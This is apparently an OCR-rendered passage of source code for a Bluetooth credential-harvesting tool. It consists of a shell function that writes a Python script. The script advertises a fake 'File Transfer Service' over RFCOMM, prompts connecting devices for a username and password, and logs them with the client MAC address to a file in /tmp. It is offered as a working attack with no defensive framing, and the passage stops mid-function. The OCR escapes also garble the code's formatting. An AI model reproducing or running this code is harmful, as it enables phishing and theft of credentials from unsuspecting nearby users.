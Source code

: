 \# Harvest credentials through Bluetooth services\
credential_harvest() {\
echo "Starting Bluetooth credential harvesting..."

    \# Step 1: Monitor Bluetooth authentication attempts  
    cat \> /tmp/bt\_credential\_logger.py \<\< 'EOF'  

#!/usr/bin/env python3\
import bluetooth\
import hashlib\
import time\
import json

class CredentialHarvester:\
def \_\_init\_\_(self):\
self.credentials = \[\]\
self.log_file = "/tmp/bt_credentials.log"

    def setup\_fake\_service(self):  
        \# Create fake service that requires authentication  
        server\_sock \= bluetooth.BluetoothSocket(bluetooth.RFCOMM)  
        server\_sock.bind(("", bluetooth.PORT\_ANY))  
        server\_sock.listen(1)  
            
        \# Advertise fake service  
        bluetooth.advertise\_service(  
            server\_sock, "File Transfer Service",  
            service\_classes=\[bluetooth.SERIAL\_PORT\_CLASS\],  
            profiles=\[bluetooth.SERIAL\_PORT\_PROFILE\]  
        )  
            
        print("Fake authentication service started...")  
            
        while True:  
            client\_sock, client\_info \= server\_sock.accept()  
            self.handle\_auth\_attempt(client\_sock, client\_info)  
        
    def handle\_auth\_attempt(self, client\_sock, client\_info):  
        try:  
            client\_sock.send(b"Authentication required\\nUsername: ")  
            username \= client\_sock.recv(1024).decode().strip()  
                
            client\_sock.send(b"Password: ")  
            password \= client\_sock.recv(1024).decode().strip()  
                
            \# Log credentials  
            cred\_data \= {  
                "timestamp": time.time(),  
                "client\_mac": client\_info\[0\],  
                "username": username,  
                "password": password,  
                "password\_hash": hashlib.md5(password.encode()).hexdigest()  
            }  
                
            self.credentials.append(cred\_data)  
            self.save\_credentials()  
                